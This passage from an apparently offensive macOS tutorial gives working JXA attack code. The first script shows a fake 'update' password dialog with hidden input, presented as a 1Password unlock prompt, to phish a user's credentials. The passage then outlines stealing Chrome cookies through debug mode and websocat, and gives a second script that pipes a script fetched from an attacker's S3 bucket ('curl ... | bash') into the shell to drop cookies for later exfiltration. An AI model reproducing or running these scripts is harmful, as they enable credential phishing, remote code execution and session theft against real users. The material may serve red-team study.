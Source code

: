 ```js
    var title = "An Application Needs an Update to Continue";
    var text = "An Application Needs an Update to Continue";}

	if(config.hasOwnProperty("title") && config['title'] !== ""){title = config['title'];}
	if(config.hasOwnProperty("icon") && config['icon'] !== ""){icon = config['icon'];}
	if(config.hasOwnProperty("text") && config['text'] !== ""){text = config['text'];}

		var contextAppString = currentApp.systemAttribute('__CFBundleIdentifier').toString()
		var contextApp = Application(contextAppString)
		contextApp.includeStandardAdditions = true;
		var prompt = contextApp.displayDialog(text, {
			defaultAnswer: "",
			buttons: ['OK', 'Cancel'],
			defaultButton: 'OK',
			cancelButton: 'Cancel',
			withTitle: title,
			withIcon: Path(icon),
			hiddenAnswer: true
    });
   
    var promptResults = prompt.textReturned
    promptResults;
```
The previous script will search for the 1Password icon and trigger a pop-up window asking the user for credentials to unlock 1Password, as shown below:

![image-center]({{ site.url }}{{ site.baseurl }}\assets\images\tutorials\Macos\1password.jpg){: .align-center}


## Obtaining User's cookies

While researching other ways to laterally move, I came across this [post](https://mango.pdf.zone/stealing-chrome-cookies-without-a-password/). It essentially discusses how it's possible to steal Chrome browser cookies in plain text without needing to know the user's password.

To achieve this, the following actions are taken:
- Download the websocat binary for Mac.
- Open the Chrome browser in debug mode.
- Retrieve the debug URL.
- Using websocat, make a request to the debugging URL with the method Storage.getCookies. This returns a JSON with the user's cookies in plain text.

Since I didn't have direct command execution on the victim machine, what I did was host a Bash script in an AWS S3 bucket and use a JXA script to make a request to the S3 bucket and execute the script. In this case, the script would write the cookies to /tmp for later downloading.

JXA script:
```js
ObjC.import('Foundation')
ObjC.import('stdlib')
var currentApp = Application.currentApplication();
currentApp.includeStandardAdditions = true;

try{
        var output = "";
        var task =  `curl https://s3-bucket/chromeUpdate.sh | bash`   
        currentApp.doShellScript(task)
        output += "Executed task"
        output;
}

catch(error){
       output += error.toString()
	}
```
